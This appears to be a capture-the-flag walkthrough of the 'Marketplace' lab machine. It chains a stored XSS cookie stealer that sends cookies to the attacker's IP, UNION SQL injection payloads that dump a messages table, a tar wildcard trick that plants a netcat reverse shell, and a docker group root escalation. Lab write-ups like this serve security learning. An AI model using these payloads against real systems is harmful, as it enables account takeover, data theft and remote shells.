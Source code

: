 # Marketplace

## Nmap

```
sudo nmap 10.10.68.97 -p- -sS -sV         


PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 
(Ubuntu Linux; protocol 2.0)
80/tcp    open  http    nginx 1.19.2
32768/tcp open  http    Node.js (Express middleware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The root page for port 80 takes us to the following page:

![](<../../../.gitbook/assets/image (900).png>)

Under the /signup directory we can create a new user.

![](<../../../.gitbook/assets/image (901).png>)

After creating the account moving over to the /login directory and then proceed to login with the user that was created.

![](<../../../.gitbook/assets/image (902).png>)

Looking at the available listings we can see that we have an opportunity to report a listing.

![](<../../../.gitbook/assets/image (903).png>)

After reporting a listing we receive a confirmation message to say that an someone will soon investigate the listing. Shortly after we receive a resppmse to say that the listing has been reviewed.

![](<../../../.gitbook/assets/image (904).png>)

This implies that staff are actively checking the listings that are reported. Knowing this we have potential for XSS.

We can then create our own listing and check to see if we can potentially use XSS. I used the \<h1> header tag for testing purposes.

![](<../../../.gitbook/assets/image (905).png>)

After submitting the query we are redirected to the new listing and can see that this has worked.

![](<../../../.gitbook/assets/image (906).png>)

With this we can set a XSS script to retrieve a cookie when someone visits the listing to send back to us. I used the following python script below:

{% embed url="https://raw.githubusercontent.com/lnxg33k/misc/master/XSS-cookie-stealer.py" %}

Edit the script to include the VPN interface IP and preferred port.

![](<../../../.gitbook/assets/image (907).png>)

Before running the script add the following code to a new listing in the description box.

```
<script>var i=new Image;i.src="http://<IP>/?"+document.cookie;</script>
```

![](<../../../.gitbook/assets/image (908).png>)

Now report the new listing and then run the script. After a short while you should receive a cookie back.

![](<../../../.gitbook/assets/image (909).png>)

We can then open the Firefox storage console and replace our current cookie with the new one whilst on the target machine webpage. If this has worked as expected we should then login as the admin account.

![](<../../../.gitbook/assets/image (910).png>)

![](<../../../.gitbook/assets/image (911).png>)

From here going to the administration panel and selecting a user shows potential for SQL injection.

![](<../../../.gitbook/assets/image (912) (1).png>)

Putting an apostrophe in the statement in place of a 1 to purposely break the statement produces a SQL error.

![](<../../../.gitbook/assets/image (913).png>)

The following commands was then used to enumerate the database.

Find how many columns exist in the table:

```
user=1 order by 4
```

Run statement in a write able column to find database names.

```
user=-1 union select 1,group_concat(schema_name),3,4 from information_schema.schemata-- -
```

Show tables from selected 'marketplace' database.

```
user=-1 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='marketplace'-- -
```

Get column names from selected table 'messages'.

```
user=-1 union select group_concat(column_name,'\n'),2,3,4 from information_schema.columns where table_name='messages'-- -
```

Dump contents of select found columns inside the table.

```
user=-1 union select 1,group_concat(message_content,'\n'),3,4 from marketplace.messages-- - 
```

Dump contents of messages table.

```
user=-1 union select 1,group_concat(message_content,'\n'),3,4 from marketplace.messages-- -
```

![](<../../../.gitbook/assets/image (914).png>)

We now have a potential password of: @b\_ENXkGYUCAv3zJ

Trying the user jake on SSH with the given password allows SSH access.

![](<../../../.gitbook/assets/image (915).png>)

Checking `sudo -l` shows we can run the /opt/backups/backup.sh file as michael without specifying a password.

![](<../../../.gitbook/assets/image (916).png>)

Running cat on backup.sh shows the following contents:

```
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

As the tar command end in a wildcard we can exploit this to gain a shell as michael. This technique is referenced here in [https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

**Conceptual Information:**

If you have ever explored tar to read its optional switches then you will find the following option.

**–checkpoint\[=NUMBER]** show progress messages every Numbers record (default 10)

**–checkpoint-action=ACTION** execute ACTION on each checkpoint

There is a ‘–checkpoint-action’ option, that will specify the program which will be executed when the checkpoint is reached. Mainly, this permits us to run an arbitrary command. Hence Options ‘–checkpoint=1’ and ‘–checkpoint-action=exec=sh shell.sh’ are handed to the ‘tar’ program as command-line options.

Created a `netcat` reverse shell with the command below.

```
msfvenom -p cmd/unix/reverse_netcat LHOST=10.14.3.108 LPORT=80 
```

![](<../../../.gitbook/assets/image (919).png>)

Run the following commands on the host machine inside the /opt/backup directory. Specifying the generated msfvenom command.

```
echo "mkfifo /tmp/zcvkti; nc 10.14.3.108 80 0</tmp/zcvkti | /bin/sh >/tmp/zcvkti 2>&1; rm /tmp/zcvkti" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
chmod 777 backup.tar
chmod 777 shell.sh
sudo -u michael /opt/backups/backup.sh
```

We should then receive a shell as michael.

![](<../../../.gitbook/assets/image (918).png>)

As michael is part of the docker group we can escalate privileges as per GTFOBins: [https://gtfobins.github.io/gtfobins/docker/](https://gtfobins.github.io/gtfobins/docker/).

![](<../../../.gitbook/assets/image (922) (1).png>)

![](<../../../.gitbook/assets/image (921) (1).png>)
